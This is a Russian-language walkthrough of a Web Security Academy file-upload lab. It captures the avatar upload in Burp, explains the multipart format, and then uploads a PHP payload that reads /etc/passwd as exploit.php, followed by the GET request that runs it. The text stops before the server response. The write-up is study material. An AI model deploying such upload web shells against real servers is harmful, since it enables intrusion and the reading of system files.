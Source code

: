 ## Дано

учётка `wiener:peter`

## Задача

через загрузку файлов узнать секрет `/home/carlos/secret`

# Разведка

Запрос при отправке изображения
```
POST /my-account/avatar HTTP/2
Host: 0a31003e04566e79802e8fb8000f0037.web-security-academy.net
Cookie: session=FHvyuqNxNXt3Y0Zzlab7LBg5qD5C8pRu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------28702491387431376323818209528
Content-Length: 9291
Origin: https://0a31003e04566e79802e8fb8000f0037.web-security-academy.net
Referer: https://0a31003e04566e79802e8fb8000f0037.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="avatar"; filename="icons8-google-chrome-200.png"
Content-Type: image/png

PNG
[...binary content of example.jpg...]
```

Формат `Content-Type: multipart/form-data; boundary=---------------------------28702491387431376323818209528`

Ответ (увидеть можно ток при настройках фильтров images в burp suit)
```
GET /files/avatars/icons8-google-chrome-200.png HTTP/2
Host: 0a31003e04566e79802e8fb8000f0037.web-security-academy.net
Cookie: session=FHvyuqNxNXt3Y0Zzlab7LBg5qD5C8pRu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a31003e04566e79802e8fb8000f0037.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=5, i
Te: trailers
```
Ответ от сервера содержит кодировку в png как мы и отослали в POST

### Разбор запроса

Убрав изображение мы видим
```
-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="avatar"; filename="icons8-google-chrome-200.png"
Content-Type: image/png

-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="user"

wiener
-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="csrf"

XhAIqFUP078hvMj404up8KXXNDNsweZz
-----------------------------28702491387431376323818209528--
```

##### 1. Границы (Boundary):

   • `-----------------------------28702491387431376323818209528` — это граница (boundary), которая используется для разделения различных частей данных в запросе. Она уникальна для данного запроса и позволяет серверу понимать, где заканчивается одна часть и начинается другая.

##### 2. Части данных:

Каждая часть данных начинается с границы и содержит заголовки и тело. В вашем примере есть три части:

**• Первая часть: Загружаемое изображение.**
 
```
Content-Disposition: form-data; name="avatar"; filename="icons8-google-chrome-200.png"
Content-Type: image/png
```
  
- Content-Disposition: указывает, что это часть формы с именем avatar, и что это файл с именем icons8-google-chrome-200.png.
- Content-Type: указывает тип содержимого, в данном случае это PNG-изображение.

**• Вторая часть: Дополнительные данные формы.**

```
Content-Disposition: form-data; name="user" 

wiener
```
Здесь передается текстовое поле с именем user, в котором содержится значение wiener.

**• Третья часть: CSRF-токен.**
 
Content-Disposition: form-data; name="csrf"

 XhAIqFUP078hvMj404up8KXXNDNsweZz

Это поле предназначено для защиты от атак CSRF (Cross-Site Request Forgery) и содержит токен, который сервер может проверить.

##### 3. Завершение:

   • Запрос завершается границей, которая заканчивается двойным дефисом (--):
 
 `-----------------------------28702491387431376323818209528--`

# Атака

Убираем кодированное изображение и вставляем на его место
```
<?php echo file_get_contents('/etc/passwd'); ?>
```

Получаем формат POST
```
POST /my-account/avatar HTTP/2
Host: 0a31003e04566e79802e8fb8000f0037.web-security-academy.net
Cookie: session=FHvyuqNxNXt3Y0Zzlab7LBg5qD5C8pRu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------28702491387431376323818209528
Content-Length: 9291
Origin: https://0a31003e04566e79802e8fb8000f0037.web-security-academy.net
Referer: https://0a31003e04566e79802e8fb8000f0037.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="user"

wiener
-----------------------------28702491387431376323818209528
Content-Disposition: form-data; name="csrf"

XhAIqFUP078hvMj404up8KXXNDNsweZz
-----------------------------28702491387431376323818209528--
```
После отправляем
```
GET /files/avatars/exploit.php HTTP/2
Host: 0a5500a704e2293481f998a800dd00a6.web-security-academy.net
Cookie: session=l1SIvBcF6l20ZMIck9OPGKMiA6IcaZPA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a5500a704e2293481f998a800dd00a6.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=5, i
Te: trailers
Content-Length: 4
```
И  получаем ответ
